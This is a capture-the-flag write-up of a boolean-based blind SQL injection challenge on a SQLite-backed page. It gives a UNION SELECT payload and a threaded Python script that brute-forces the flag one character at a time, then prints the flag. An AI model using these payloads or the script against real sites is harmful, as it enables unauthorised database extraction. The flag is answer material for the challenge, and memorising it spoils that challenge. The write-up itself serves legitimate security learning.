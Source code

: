 # Why lie: Blind SQL injection (500 points)

![Alt text](image.png)

Given the script shows that it will output only Good guess! and Nope if our sql statement query fetches any data or not. So we can use blind sql injection to get the flag by boolean based.

![Alt text](image-1.png)

Using cyberfox with hackbar extension we can easily make a payload. The payload above was showed as an example from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). 

Blind SQL injection process:
- Find the number of columns
- Find the table name
- Find the column name
- Analyze what we can do next

As we have already found the number of columns and the table name is `secret`.

![Alt text](image-2.png)

Finding the column name needs a bit of guessing. I tried `message` but shows error so I tried `flag` and it worked.

![Alt text](image-3.png)

Now we can use the column name to get the flag by bruteforcing it with output based "Good guess!" and "Nope".

The payload: `guess=1 UNION SELECT 1 FROM secret where flag like "UDCTF{%";`

```python
import requests
import concurrent.futures

url = "https://bluehens-blindsql.chals.io/index.php?guess=1 UNION SELECT 1 FROM secret where flag like '" 

charset = "abcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+{}[]|;:'\",.<>?/`~"

flag = "UDCTF{"

def check_character(char):
    payload = f"{url}{flag}{char}%'"
    response = requests.get(payload)
    return "Good guess!" in response.text

with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_character, char) for char in charset]
        concurrent.futures.wait(futures)
        
        found = False
        for char, future in zip(charset, futures):
            if future.result():
                flag += char
                found = True
                print(flag)
                break
        
        if not found or flag[-1] == "}":
            break

print("Flag:", flag)
```

**FLAG:** UDCTF{l1k3_a_b4t}